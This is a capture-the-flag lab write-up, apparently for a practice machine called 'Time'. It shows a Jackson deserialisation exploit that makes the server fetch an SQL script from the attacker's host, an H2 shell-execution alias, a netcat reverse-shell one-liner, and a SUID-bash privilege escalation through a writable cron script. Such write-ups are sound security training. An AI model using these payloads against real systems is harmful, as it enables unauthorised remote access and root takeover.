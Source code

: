 # Time

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.85.102
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-02 10:05 EDT
Warning: 10.129.85.102 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.129.85.102
Host is up (0.039s latency).
Not shown: 45364 closed tcp ports (conn-refused), 20169 filtered tcp ports (no-response)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

### JSON Beautifier

Port 80 was running a JSON Beautifier:

<figure><img src="../../../.gitbook/assets/image (532).png" alt=""><figcaption></figcaption></figure>

This would accept JSON inputs, but I had no idea what kind of engine this was using. There were 2 modes to this: Beautify and Validate, of which the latter was in Beta. I tried sending some random input and managed to trigger an error:

<figure><img src="../../../.gitbook/assets/image (534).png" alt=""><figcaption></figcaption></figure>

We can view the rest of this error either in Burp or by examining the page source.

{% code overflow="wrap" %}
```
Validation failed: Unhandled Java exception: com.fasterxml.jackson.databind.exc.MismatchedInputException: Unexpected token (START_OBJECT), expected START_ARRAY: need JSON Array to contain As.WRAPPER_ARRAY type information for class java.lang.Object
```
{% endcode %}

So this was using a software called Jackson to validate JSON input. Googling for exploits led me to some deserialisation related exploits where we could achieve RCE. Here's the PoC I used:

{% embed url="https://github.com/jas502n/CVE-2019-12384" %}

We first need to create a reverse shell in SQL interestingly:

```sql
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
        String[] command = {"bash", "-c", cmd};
        java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(command).getInputStream()).useDelimiter("\\A");
        return s.hasNext() ? s.next() : "";  }
$$;
CALL SHELLEXEC('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.13 4444 >/tmp/f')
```

Afterwards, we need to send this input to the application to be parsed:

<pre class="language-json"><code class="lang-json">[
<strong>"ch.qos.logback.core.db.DriverManagerConnectionSource",
</strong>{
"url": "jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http:\/\/10.10.14.13\/exploit.sql'"
}
]
</code></pre>

When we send this, it would download the file and give us a reverse shell.

<figure><img src="../../../.gitbook/assets/image (535).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### GetText

I ran a LinPEAS scan for enumeration. Within the output, this caught my eye:

```
[+] .sh files in path
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#script-binaries-in-path      
/usr/bin/gettext.sh                                                                          
You own the script: /usr/bin/timer_backup.sh
/usr/bin/rescan-scsi-bus.sh
```

It seems that we own a script or something. Since this is within the system's PATH variable, we can just edit it. Here's the content of the script:

```bash
#!/bin/bash
zip -r website.bak.zip /var/www/html && mv website.bak.zip /root/backup.zip
```

This looks like something that the `root` user would have on a cronjob. As such, we can just append `chmod u+s /bin/bash` to the script.&#x20;

```bash
pericles@time:/usr/bin$ echo 'chmod u+s /bin/bash' >> timer_backup.sh
```

<figure><img src="../../../.gitbook/assets/image (528).png" alt=""><figcaption></figcaption></figure>

Easy root!
